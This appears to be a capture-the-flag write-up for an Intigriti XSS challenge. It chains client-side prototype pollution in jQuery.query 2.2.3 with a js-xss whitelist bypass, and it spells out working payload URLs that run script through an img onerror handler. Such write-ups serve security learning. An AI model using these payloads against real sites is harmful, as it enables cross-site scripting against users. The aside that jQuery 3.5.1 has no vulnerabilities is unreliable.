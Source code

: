 + Looking at the source code, we can see three scripts.
+ One is the js-xss/0.3.3/xss-min.js. This version is vulnerble to DOS attack. So, we dont need to look much in that way
+ then comes jquery 3.5.1 . which is the latest version so no vulnerabilities.
+ then comes, Jquery.query, version2.2.3 which is vulnerable to client side prototype pollution.
+ The only parameter we have is the page parameter.
+ ![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/b4c54925-fa6b-4dab-8fdd-2b94e7f02528)
https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/jquery-query-object.md
+ As we polluted the object in the above case, lets try to do with the page parameter
+ payload: https://challenge-0522.intigriti.io/challenge/challenge.html?page[__proto__][5]=Subscribe&page=5
![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/4e53b8e0-c5cf-40ec-98f9-3ab096513b28)
+ The output is getting reflected. Lets try giving some simple xss payload as follows:
+ payload: https://challenge-0522.intigriti.io/challenge/challenge.html?page[__proto__][5]=%3Cimg%20src=x%20onerror=alert(document.domain)%3E&page=5
+ When we give the above payload, we can see the our payload gets filtered.
from the following code we can understand that filterxss function is present.
```
var pl = $.query.get('page');
  if(pages[pl] != undefined){
    console.log(pages);
    document.getElementById("root").innerHTML = pages['4']+filterXSS(pages[pl]);
  }else{
    document.location.search = "?page=1"
  }
```
+ https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/js-xss.md
+ final payload:
`https://challenge-0522.intigriti.io/challenge/challenge.html?page[__proto__][5]=%3Cimg%20src=x%20onerror=alert(document.domain)%3E&page=5&__proto__[whiteList][img][0]=onerror&__proto__[whiteList][img][1]=src
